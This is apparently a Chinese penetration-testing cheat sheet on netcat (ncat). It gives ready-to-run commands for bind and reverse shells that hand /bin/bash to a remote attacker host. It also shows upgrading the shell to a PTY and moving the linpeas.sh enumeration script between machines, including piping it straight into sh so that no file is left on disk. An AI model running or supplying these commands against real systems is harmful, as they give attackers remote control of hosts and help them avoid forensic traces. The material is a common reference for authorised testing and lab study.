 # 渗透常用命令之nc

    远程`SHELL`可以使攻击者跨网络执行`SHELL`命令。以小巧实用而著名的网络工具`nc`可以快速的提供远程`SHELL`和文件传输功能。

> 此次演示使用的程序为`ncat`，不同的版本命令可能会有差别

## 一、远程SHELL

    因为防火墙或者`NAT`的存在，通常导致无法在外部主动连接目标主机。根据攻击者所在位置，选择使用正向`SHELL`还是反向`SHELL`。

### 1. 正向shell（Bind shell）

靶机将`SHELL`绑定至本地端口，以供攻击机远程访问。靶机监听，攻击机主动连接靶机的称为正向`SHELL`。

> 攻击机位于局域网，靶机位于公网

![Bind.png](https://raw.githubusercontent.com/khdxs7/steps-img/main/BindShell.png)

- 靶机监听端口
  
  ```bash
  nc -lvp 8888 -e /bin/bash
  ```

- 攻击机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

### 2. 反向shell（Reverse shell）

攻击机将`SHELL`绑定至本地端口，以供靶机远程访问。攻击机监听，靶机主动连接攻击机的称为反向`SHELL`。

> 攻击机位于公网，靶机位于局域网

![Reverse.png](https://raw.githubusercontent.com/khdxs7/steps-img/main/ReverseShell.png)

- 攻击机监听端口
  
  ```bash
  nc -lvp 8888 
  ```

- 靶机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888 -e /bin/bash
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

## 二、文件传输

> 文件传输演示的网络环境为：攻击机位于局域网，靶机位于公网。

### 1. 文件上传（File upload）

将脚本文件`linpeas.sh`从攻击机上传到靶机。

- 靶机监听端口，并将输出重定向到文件`linpeas.sh`
  
  ```bash
  nc --recv-only -lvp 8888 > linpeas.sh
  ```

- 攻击机连接靶机端口，将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  ```
  
  > 靶机可以通过管道将脚本内容直接传入`shell`。在内存中运行脚本，不会在硬盘中留下任何文件。
  > 
  > - 靶机
  >   
  >   ```bash
  >   nc --recv-only -lvp 8888 | sh
  >   ```
  > 
  > - 攻击机
  >   
  >   ```bash
  >   nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  >   ```

### 2. 文件下载（File download）

将脚本文件`linpeas.sh`从靶机下载到攻击机。

- 靶机监听端口，并将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc --send-only -lvp 8888 < linpeas.sh
  ```

- 攻击机连接靶机端口，将输出重定向到文件`linpeas_download.sh`
  
  ```bash
  nc -v --recv-only 106.000.000.100 8888 > linpeas_download.sh
  ```
